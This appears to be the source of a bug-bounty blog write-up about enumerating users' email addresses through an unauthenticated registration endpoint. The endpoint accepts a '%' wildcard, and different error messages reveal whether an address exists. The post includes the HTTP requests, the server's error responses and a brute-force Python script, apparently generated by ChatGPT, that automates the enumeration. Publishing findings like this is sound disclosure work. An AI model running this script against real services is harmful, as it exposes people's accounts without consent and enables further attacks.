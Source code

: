```yaml
---
layout: post
title: Unauthenticated Email Enumeration via API Fuzzing
date: 2024-02-21 15:08 +0530
categories: [bugbounty, writeup]
tags: [bugbounty,API,FUZZ] 
---
```



## Introduction

This post investigates a security vulnerability within the "signup" function of the GraphQL API, as observed in the application under examination. This vulnerability allows unauthorized users to enumerate email addresses without authentication or rate limiting, potentially exposing sensitive information.

## Discovery

While testing the registration process, I encountered a POST request to a API endpoint used for email verification in my burp history tab. The endpoint was checking if the email address I entered during registration already existed or not.So i started 
Fuzzing the endpoint `/registration` with fuzzing payloads using intruder, I stumbled upon a peculiar response when I injected a % character into the `userEmail` parameter. The server returned a 500 Internal Server Error along with a  message


```json
POST /registration HTTP/2
Host: domain
Content-Type: application/json;charset=UTF-8

{"userEmail":"%"}

```bash
There was an unexpected error (type=Internal Server Error, status=500).</div><div>Unable to find com.correnet.matcha.client.model.application.AccessGroup with id 7052; nested exception is javax.persistence.EntityNotFoundException: Unable to find com.correnet.matcha.client.model.application.AccessGroup with id 7052<
```
By observing this error message my assumption was the post request  sent to the registration endpoint with the `userEmail` parameter set to `%`. This input triggers a SQL query in the backend to select all records from the users table where the email column matches any value containing the % character. The error message returned from the server indicates that there are 7052 entries in the system, giving insight into the number of user accounts present.Something like,

```sql
SELECT * FROM users WHERE email LIKE "%"
```
Further testing this endpoint i figured out the true and false case for the email address existence

#### False Response Case:
HTTP Request Body: {"userEmail":"adamcorta%"}
HTTP Response: "Could not find resource: ApplicationUser identified by adamcorta%"

#### True Response Case:
HTTP Request: {"userEmail":"adamcorte%"}
HTTP Response: "Anonymous user (not logged in) not authorized for operation: [connect application user to Platform user]"

And based on this error messages, I(ChatGPT) made a wacky Python script to automate the email enumeration:

```python
import requests

def brute_force_attack():
  
    charset = 'abcdefghijklmnopqrstuvwxyz@._'
    initial_string = ''

    last_valid_username = None  
    
    consecutive_errors = 0  
    max_consecutive_errors = 70  
    for initial_char in charset:
        initial_string = initial_char
        while True:
            for char in charset:
                
                payload = initial_string + char + '%'
                response = send_request(payload)

                
                if "500" in response:
                    initial_string += char
                    print(initial_string)
                    break
                elif "403" in response:
                    last_valid_username = payload  
                    print(f"username: {last_valid_username}")
                    initial_string += char
                    consecutive_errors = 0
                    break
                else:
                    
                    consecutive_errors = 0
            else:
                
                consecutive_errors += 1
                if consecutive_errors >= max_consecutive_errors:
                    if last_valid_username is not None:
                        print(f"Last valid username: {last_valid_username}")
                    else:
                        print("No valid username found.")
                    return initial_string
                break  

    else:
        initial_string += charset[0]
    return initial_string



def send_request(payload):
    
    endpoint_url = '{domain}}'  
    url = f"{endpoint_url}/registration"
    headers = {'Content-Type': 'application/json;charset=UTF-8'}
    data = {"userEmail": payload}

    try:
        response = requests.post(url, json=data, headers=headers)
        response.raise_for_status()  
        return response.text
    except requests.exceptions.RequestException as e:
        return str(e)


result = brute_force_attack()
print("The correct username is:", result)
```

